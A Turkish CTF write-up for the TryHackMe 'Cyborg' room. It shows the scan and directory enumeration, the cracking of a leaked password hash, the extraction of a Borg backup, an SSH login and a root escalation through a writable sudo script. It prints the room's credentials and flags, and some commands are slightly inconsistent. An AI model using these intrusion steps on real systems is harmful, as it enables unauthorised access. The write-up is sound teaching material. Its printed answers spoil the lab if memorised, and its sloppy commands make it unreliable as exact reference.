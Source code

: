 ## Giriş

Hoşgeldiniz! Bu yazımda Tryhackme’de bulunan <a href="https://tryhackme.com/room/cyborgt8">Cyborg</a> makinesinin çözümünü paylaşacağım.

Şifrelenmiş arşivleri, kaynak kodu analizini ve daha fazlasını içeren bir ctf.

Başlayalım.

# Görev 1 Compromise the System 

Her zamanki gibi nmap taramasıyla başlıyoruz.

>nmap -A -T5 -sV -p- $ip

nmap çıktısı şu şekilde:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbb270f307ac32003f81b8d03a89f365 (RSA)
|   256 68e6852f69655be7c6312c8e4167d7ba (ECDSA)
|_  256 562c7992ca23c3914935fadd697ccaab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

1.
Makineyi tarayın. Kaç port açık?
>Cevap:2

2.
22 portunda hangi servis çalışıyor?
>Cevap:ssh

3.
80 portunda hangi servis çalışıyor?
>Cevap:http

4.
user.txt bayrağını bulunuz.

Hedefin websitesine gidelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a1.png?raw=true)

Karşımıza Apache2 Ubuntu Default Page geldi. Bu sayfadan bişey çıkaramayız.

Gizli dizinleri görmek için gobuster çalıştıralım.

>gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.218.26
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/27 16:14:52 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.10.218.26/admin/]
/etc                  (Status: 301) [Size: 310] [--> http://10.10.218.26/etc/]
Progress: 220326 / 220561 (99.89%)
===============================================================
2023/03/27 16:27:14 Finished
===============================================================
```

Gobuster çıktısı bu şekilde. admin ve etc dizinini inceleyelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a2.png?raw=true)

Buradaki kullanıcı isimlerini not edelim: Josh, Adam ve Alex. İleride işimize yarayabilirler. Başka neler işimize yarayabilir? Alex, mesajında bazı işleri mahvettiğini söylüyor. Web sitesini daha güvenli hale getirmek için ne yapacağını bilmediği için beklemeye karar vermiş ve yapılandırma dosyalarının herkesin erişebildiğinden bahsediyor. Ayrıca, “music_archive” adlı bir arşivinden bahsediyor.

Yani, web sitesi pek güvenli değil. Yapılandırma dosyasına erişebiliriz ve “music_archive” adlı arşivi de onun için önemli görünüyor.

Web sitesini keşfetmeye devam edelim.

“Archive-Download” kısmında bize “archive.tar” dosyasını indiriyor.

Dosyayı incelemeden once /etc alt dizin adresimizide bir ziyaret edelim.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a3.png?raw=true)

passwd dosyasıni indirelim ve inceleyelim.

>music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

music_archive’in hashi elimizde. Bu hashi hashcat ile kırabiliriz.

Hash'i bir txt dosyasına kaydedelim.

>echo 'music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' > unshadowed.txt

john the ripper kullanarak hash'i kırıyoruz.

>hashcat -m 1600 -a 0 hash.txt /path/to/file/rockyou.txt

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a4.png?raw=true)

>squidward

music_archive dosyasının şifresini biliyoruz. Diğer dosyaya geçelim.

archive.tar dosyasını çıkartalım.

>tar -xvf archive.tar

README.md dosyasını dikkatimi çekti ve dosyayı açtım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a5.png?raw=true)

Bu dosyaların bir Borg yedekleme deposu olduğunu söylüyor.

Burada Borg’u araştırmamız gerekiyor. Verdiği link aslında oldukça yardımcı oluyor.

Borg’un ne olduğunu anlamanız ve nasıl kullanıldığını öğrenmeniz gerekiyor.

https://borgbackup.readthedocs.io/

Verdigi sitede Quick Start kısmında nasıl kullanılacağı anlatılmış.

Borg'u kuralım.
>sudo apt-get install borg



```
borg list home/field/dev/final_archive

──(kali㉿kali)-[~/Downloads]
└─$ borg list home/field/dev/final_archive 
Enter passphrase for key /home/kali/Downloads/home/field/dev/final_archive: 
music_archive                Tue, 2020-12-29 17:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```

Bu komutu çalıştırınca yukarıda bulduğumuz şifreyi girdim ve başarılı oldum.

Güzel, “music_archive” dosyasını bulduk. Şimdi, içerisinde neler olduğuna bakalım.

Aşağıdaki komut ile “music_archive” içeriğini listeleyebiliriz

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a6.png?raw=true)

İçeriğinin sonunda “secret.txt” ve “note.txt” dikkatimi çekti. Bu dosyaları incelemek için “music_archive” dosyasını çıkartalım

>borg extract home/field/dev/final_archive::music_archive

home içerisine alex adlı dosya çıkartıldı. Bu notlara bakalım.

>cat home/alex/Documents/note.txt

note.txt dosyasını açtığımızda kullanıcı adı ve şifreyi buluyoruz.
>alex:S3cretP@s3

Bulduğumuz kullanıcı adı ve şifreyle ssh servisine girelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a7.png?raw=true)

Makineye giriş yapmayı başardık. user bayrağını alalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a8.png?raw=true)

```
user_flag:flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```
Geriye root bayrağını almak kaldı. Yetki yükseltme işlemi yaparak roota erişmeye çalışalım.

>sudo -l
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a9.png?raw=true)


/etc/mp3backups/backup.sh dosyasını çalıştırabiliyoruz. Kontrol edelim ve değiştirmeye çalışalım.

> chmod 777 /etc/mp3backups/backup.sh //backup.sh dosyasının izinlerini değiştiriyoruz.

> echo "bin/bash" > /etc/mp3backups/backup.sh //backup.sh dosyasına /bin/bash komutunu ekliyoruz.

> sudo /etc/mp3backups/backup.sh // dosyayı çalıştırıyoruz.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a10.png?raw=true)

Artık root olduğumuza göre root bayrağını alabiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Cyborg/images/a11.png?raw=true)

```
root_flag:flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```

Ve böylelikle bir ctf daha tamamladık gelecek yazılarımda görüşmek üzere.